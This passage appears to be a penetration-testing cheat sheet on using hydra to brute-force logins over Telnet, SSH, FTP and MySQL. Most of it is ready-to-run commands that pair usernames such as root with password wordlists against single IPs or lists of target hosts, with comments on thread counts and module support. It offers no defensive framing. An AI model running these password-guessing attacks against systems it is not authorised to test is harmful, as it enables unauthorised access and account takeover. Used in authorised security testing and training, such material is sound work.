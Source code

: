
## Telnet

```sh
hydra -l <username> -P <password_file> telnet://targetname
```

## SSH

```sh
hydra -l root -M /path/to/ip/list.txt -P /path/to/passwordlist.txt ssh -t 4
```
Notice that with some services, we may need to use the recommended
number of tasks. In case of SSH if we use more than 4 tasks we may get
errors.

```sh
hydra 192.168.1.26 ssh2 -s 22 -P pass.txt -L users.txt -e ns -t 10
 # this will attack the system 192.168.1.26 on port 22
 # and will use as password file pass.txt while
 # for users the file users.txt
 # the process will use 10 threads at a time
```


```sh
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123
```

```sh
hydra -L logins.txt -P pws.txt -M targets.txt ssh
# tries the users from logins.txt and the paasswords from pws.txt
# on all the machines listed on targests.txt on the ssh port/service
```


## FTP 

```sh
hydra -l root -P 500-worst-passwords.txt 10.10.10.10 ftp
```


```sh
hydra -l user -P passlist.txt ftp://192.168.0.1
```

## MySQL and other databases

We can use hydra with many kinds of databases, anyway it is very important for
us to check that we have installed hydra with the adequate module to perform a
specific bruteforce.

**IMPORTANT**: if we did not install hydra with mysql5 support it will not work,
we can check the modules available by issuing a `hydra -h`, if we just see
`mysql(v4)` this means that our version will not be compatible with `mysql5`,
while if we see `mysql` then our version of hydra will be compatible also with
mysql5 databases.

